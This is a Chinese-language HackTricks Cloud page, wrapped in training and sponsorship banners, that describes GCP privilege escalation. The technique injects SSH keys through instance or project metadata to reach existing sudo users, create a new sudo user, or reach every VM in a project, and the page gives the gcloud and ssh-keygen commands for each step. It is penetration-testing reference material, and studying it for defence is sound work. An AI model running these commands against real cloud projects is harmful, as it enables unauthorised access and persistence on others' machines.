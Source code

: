 # GCP - 添加自定义 SSH 元数据

## GCP - 添加自定义 SSH 元数据

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

### 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

对实例的元数据修改可能导致 **如果攻击者获得必要权限，将会带来重大安全风险**。

#### **将 SSH 密钥纳入自定义元数据**

在 GCP 上，**Linux 系统** 通常会从 [Google Compute Engine 的 Python Linux 客户环境](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) 执行脚本。其关键组件是 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，旨在 **定期检查** 实例元数据端点以获取 **授权 SSH 公钥的更新**。

因此，如果攻击者能够修改自定义元数据，他可以使守护进程找到一个新的公钥，该公钥将被处理并 **集成到本地系统中**。该密钥将被添加到 **现有用户的 `~/.ssh/authorized_keys` 文件中，或者根据密钥的格式可能创建一个具有 `sudo` 权限的新用户**。攻击者将能够攻陷主机。

#### **将 SSH 密钥添加到现有特权用户**

1. **检查实例上的现有 SSH 密钥：**
*   执行命令以描述实例及其元数据，以定位现有的 SSH 密钥。输出中的相关部分将在 `metadata` 下，具体是 `ssh-keys` 键。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* 注意 SSH 密钥的格式：用户名在密钥之前，用冒号分隔。
2. **为 SSH 密钥元数据准备文本文件：**
* 将用户名及其对应的 SSH 密钥的详细信息保存到名为 `meta.txt` 的文本文件中。这对于保留现有密钥并添加新密钥至关重要。
3. **为目标用户（本示例中的 `alice`）生成新的 SSH 密钥：**
*   使用 `ssh-keygen` 命令生成新的 SSH 密钥，确保注释字段（`-C`）与目标用户名匹配。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 将新的公钥添加到 `meta.txt` 中，模仿实例元数据中的格式。
4. **更新实例的 SSH 密钥元数据：**
*   使用 `gcloud compute instances add-metadata` 命令将更新的 SSH 密钥元数据应用于实例。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **使用新的 SSH 密钥访问实例：**
*   使用新的密钥通过 SSH 连接到实例，以目标用户（本示例中的 `alice`）的身份访问 shell。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **创建新特权用户并添加 SSH 密钥**

如果没有找到有趣的用户，可以创建一个新用户并赋予其 `sudo` 权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH 密钥在项目级别 <a href="#sshing-around" id="sshing-around"></a>

通过 **在项目级别应用 SSH 密钥**，可以扩大对云环境中多个虚拟机 (VM) 的 SSH 访问范围。这种方法允许对项目内任何未明确阻止项目范围 SSH 密钥的实例进行 SSH 访问。以下是简要指南：

1. **在项目级别应用 SSH 密钥：**
*   使用 `gcloud compute project-info add-metadata` 命令将 `meta.txt` 中的 SSH 密钥添加到项目的元数据中。此操作确保 SSH 密钥在项目中的所有 VM 中被识别，除非某个 VM 启用了“阻止项目范围 SSH 密钥”选项。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **使用项目范围密钥 SSH 进入实例：**
* 在项目范围内有 SSH 密钥的情况下，您可以 SSH 进入项目内的任何实例。未阻止项目范围密钥的实例将接受 SSH 密钥，从而授予访问权限。
* SSH 进入实例的直接方法是使用 `gcloud compute ssh [INSTANCE]` 命令。此命令使用您当前的用户名和在项目级别设置的 SSH 密钥尝试访问。

## 参考

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术： <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
